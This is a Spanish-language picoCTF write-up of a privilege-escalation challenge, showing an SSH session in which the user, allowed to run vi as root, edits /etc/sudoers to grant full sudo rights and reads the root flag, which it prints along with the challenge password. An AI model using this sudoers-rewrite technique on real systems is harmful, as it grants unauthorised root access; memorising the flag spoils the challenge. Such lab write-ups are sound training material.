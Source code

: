 ## Descripción del reto
Can you read files in the root file?
Additional details will be available after launching your challenge instance.

The system admin has provisioned an account for you on the main server:`ssh -p 62853 picoplayer@saturn.picoctf.net`Password: `j4ks-9nxB-`Can you login and read the root file?

## Solución

- Entrar de forma segura al servidor.
```
BLOODANGELIX-picoctf@webshell:~$ ssh -p 53387 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:53387 ([13.59.203.175]:53387)' can't be established.
ED25519 key fingerprint is SHA256:HKm/Bw1C+mhj23vO8tXULrgLFYvzP6gQH2IwgUiQTok.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:7: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:53387' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.8.0-1035-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
```

- Muestra los comandos que puede ejecutar el usuario, después intentamos acceder a la carpeta root, pero ya que no es posible acceder, pues accedemos al directorio base con *cd /*, y mostramos los directorios y archivos. En seguida entramos al directorio *etc* en donde se encuentra el archivo *sudoers*, y para modificarlo utilizamos el comando *sudo vi sudoers*.
```
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ cd /root
-bash: cd: /root: Permission denied

picoplayer@challenge:~$ cd /
picoplayer@challenge:/$ ls -l
total 0
lrwxrwxrwx   1 root   root      7 Mar  8  2023 bin -> usr/bin
drwxr-xr-x   2 root   root      6 Apr 15  2020 boot
d---------   1 root   root     27 Aug  4  2023 challenge
drwxr-xr-x   5 root   root    340 Sep 14 03:50 dev
drwxr-xr-x   1 root   root     66 Sep 14 03:50 etc
drwxr-xr-x   1 root   root     24 Aug  4  2023 home
lrwxrwxrwx   1 root   root      7 Mar  8  2023 lib -> usr/lib
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib32 -> usr/lib32
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib64 -> usr/lib64
lrwxrwxrwx   1 root   root     10 Mar  8  2023 libx32 -> usr/libx32
drwxr-xr-x   2 root   root      6 Mar  8  2023 media
drwxr-xr-x   2 root   root      6 Mar  8  2023 mnt
drwxr-xr-x   2 root   root      6 Mar  8  2023 opt
dr-xr-xr-x 213 nobody nogroup   0 Sep 14 03:50 proc
drwx------   1 root   root     23 Aug  4  2023 root
drwxr-xr-x   1 root   root     66 Sep 14 03:53 run
lrwxrwxrwx   1 root   root      8 Mar  8  2023 sbin -> usr/sbin
drwxr-xr-x   2 root   root      6 Mar  8  2023 srv
dr-xr-xr-x  13 nobody nogroup   0 Sep 14 03:50 sys
drwxrwxrwt   1 root   root      6 Aug  4  2023 tmp
drwxr-xr-x   1 root   root     18 Mar  8  2023 usr
drwxr-xr-x   1 root   root     17 Mar  8  2023 var
picoplayer@challenge:/$ cd etc 
picoplayer@challenge:/etc$ ls
adduser.conf            debconf.conf    gshadow      kernel         magic.mime           pam.conf   rc4.d        ssh          timezone
alternatives            debian_version  gshadow-     ld.so.cache    mailcap              pam.d      rc5.d        ssl          tmpfiles.d
apt                     default         gss          ld.so.conf     mailcap.order        passwd     rc6.d        subgid       ucf.conf
bash.bashrc             deluser.conf    host.conf    ld.so.conf.d   mime.types           passwd-    rcS.d        subgid-      ufw
bindresvport.blacklist  dhcp            hostname     legal          mke2fs.conf          profile    resolv.conf  subuid       update-motd.d
binfmt.d                dpkg            hosts        libaudit.conf  modules-load.d       profile.d  rmt          subuid-      vim
ca-certificates         e2scrub.conf    hosts.allow  localtime      mtab                 python3    security     sudoers      wgetrc
ca-certificates.conf    environment     hosts.deny   login.defs     networkd-dispatcher  python3.8  selinux      sudoers.d    xattr.conf
cloud                   fstab           init.d       logrotate.d    networks             rc0.d      shadow       sysctl.conf  xdg
cron.d                  gai.conf        inputrc      lsb-release    nsswitch.conf        rc1.d      shadow-      sysctl.d
cron.daily              group           issue        machine-id     opt                  rc2.d      shells       systemd
dbus-1                  group-          issue.net    magic          os-release           rc3.d      skel         terminfo
picoplayer@challenge:/etc$ sudo vi sudoers

[1]+  Stopped                 sudo vi sudoers
picoplayer@challenge:/etc$ sudo vi sudoers
```

- Al haber modificado el archivo ingresando los permisos necesarios al usuario picoplayer (picoplayer ALL=(ALL:ALL) ALL), ahora vemos si la modificación del archivo fue exitosa, después dentro del directorio root, buscamos el archivo que contiene la bandera y vemos su interior.
```
picoplayer@challenge:/etc$ sudo -l
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL : ALL) ALL
    (ALL) /usr/bin/vi
picoplayer@challenge:/etc$ sudo ls -a /root
.  ..  .bashrc  .flag.txt  .profile  .viminfo
picoplayer@challenge:/etc$ sudo ls -a /root/.flag.txt
/root/.flag.txt
picoplayer@challenge:/etc$ sudo cat /root/.flag.txt
picoCTF{uS1ng_v1m_3dit0r_021d10ab}
picoplayer@challenge:/etc$ Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
BLOODANGELIX-picoctf@webshell:~$ 
```

picoCTF{uS1ng_v1m_3dit0r_021d10ab}
## Notas
sudo -l: Muestra los comandos que puede realizar el usuario actual con *sudo*.
ls -l: Muestra los directorios y archivos con todos los detalles.
sudo vi sudoers: Abre el archivo sudoers con vi, para editar lo que hay dentro de el.
sudo ls -a /root: Muestra la lista de los archivos dentro del directorio root.
sudo cat /root/.flag.txt: Muestra el contenido del archivo *.flag* dentro del directorio root.

Para salirte de visudoers, presiona la tecla ESC y : al mismo tiempo wq!. Esto guardara las modificaciones hechas.

## Referencia